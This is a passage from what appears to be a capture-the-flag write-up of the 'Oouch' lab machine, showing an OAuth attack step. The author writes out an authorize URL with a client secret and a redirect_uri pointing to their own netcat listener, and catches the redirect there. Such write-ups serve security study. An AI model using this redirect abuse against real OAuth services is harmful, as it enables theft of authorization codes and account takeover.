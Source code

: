 <center>After register and save I got this page</center>  
  
# ![param](/assets/img/oouch/oouch24.png)  
  
<center>Then I made a url to authorization.oouch.htb:800/oauth/authorize/ passing the parameters<br><br><hr>  
http://authorization.oouch.htb:8000/oauth/authorize/?client\_id=o27DRAb3IIWIsTMXVVvKahnXHjp9JTNUaJpuQMPQ&redirect\_uri=http://10.10.14.29:666&gran\_type=authorization\_code&client\_secret=hxu0Lb4cOEInlXYWRPo24luH0WKYKJvI4FcaO61RzUJyLNSPpnSbT8jCyucsOUSRCUXCiT4QgisOMlgtDqtODs94Wmp74kMI1mlvE4PQwqfnZPTVesHwLaTcfNFiizpC<hr><br><br></center>  
  
<center>And started my nc<br>  
Pasting the url in firefox I got it in nc</center>  
  
# ![nc](/assets/img/oouch/oouch25.png)  
  